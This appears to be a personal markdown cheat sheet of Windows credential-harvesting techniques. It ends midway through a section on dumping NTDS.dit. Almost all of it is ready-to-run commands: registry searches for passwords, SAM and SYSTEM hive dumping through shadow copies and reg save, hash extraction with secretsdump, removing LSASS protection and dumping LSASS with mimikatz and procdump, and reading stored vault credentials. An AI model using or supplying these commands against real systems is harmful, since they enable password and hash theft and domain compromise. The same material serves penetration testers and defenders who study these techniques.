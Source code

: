 # 1-Find Clear-Text Files:
- **Powershell History**:
```
Path: C:\<UserName>\USER\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```
- **Registry: find password keyword**:
```
c:\Users\user> reg query HKLM /f password /t REG_SZ /s
C:\Users\user> reg query HKCU /f password /t REG_SZ /s
```
- **Also look for:**
  - Database Files
  - Memory Dump
  - Active Directory.Users' description
  - Network Sniffing

# 2-Key Logging

# 3-SAM Database:
  - Path: c:\Windows\System32\config\sam
  - we can not read it and copy it
  - SAM database is encrypted either with RC4 or AES.we need a decryption key which is also stored in the files system in **c:\Windows\System32\Config\system** 
    ### how to Dump:
    - 1-MetaSploit.hashdump
    - 2-Microsoft Volume shadow copy:
        ```
        wmic shadowcopy call create Volume='C:\'
        #find where it is stored
        vssadmin list shadows
        copy \\path\to\volume\sam  \\somewhere-Else
        copy \\path\to\volume\\system \\soemwhere-Else
        ```
# 4-Registry Hives:
```
reg save HKLM\sam C:\users\Administrator\Desktop\sam-reg
reg save HKLM\system C:\users\Administrator\Desktop\system-reg
#Extract
secretsdump.py -sam /tmp/sam-reg -system /tmp/system-reg LOCAL
```

# 5-Dump LSASS(cached credentials):
  - **Protected LSASS**:
    - disable from Registry:
    ```
    HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa
    ```
    - disable with mimikatz:
    ```
    mimikatz # !+
    mimikatz # !processprotect /process:lsass.exe /remove
    ```

  - 5.1-Using GUI with Task-Manager
  - 5.2-Using procdump
  ```
  procdump.exe -accepteula -ma lsass.exe c:\<somewhere>
  ```
  - 5.3-mimikatz
  ```
  mimikatz # sekurlsa::logonpasswords
  ```
  
# 6-Windows Credential Manager:
  - Stored Credentials in system:
  ```
  vaultcmd /list
  VaultCmd /listproperties:"Web Credentials"
  VaultCmd /listcreds:"Web Credentials"
  VaultCmd /listproperties:"Windows Credentials"
  VaultCmd /listcreds:"Windows Credentials"
  cmdkey /list
  runas /savecred /user:<Domain>\Username cmd.exe
  mimikatz # sekurlsa::credman
  ```
    - The VaultCmd is not able to show the password. we can use this tools [Get-WebCredentials.ps1](https://github.com/samratashok/nishang/blob/master/Gather/Get-WebCredentials.ps1)
      ```
      Import-Module C:\Tools\Get-WebCredentials.ps1
      Get-WebCredentials
      ```
# 7-NTDS:
  - **Local**:
    - we need the following files:
        - C:\Windows\NTDS\ntds.dit
        - C:\Windows\System32\config\SYSTEM
        - C:\Windows\System32\config\SECURITY
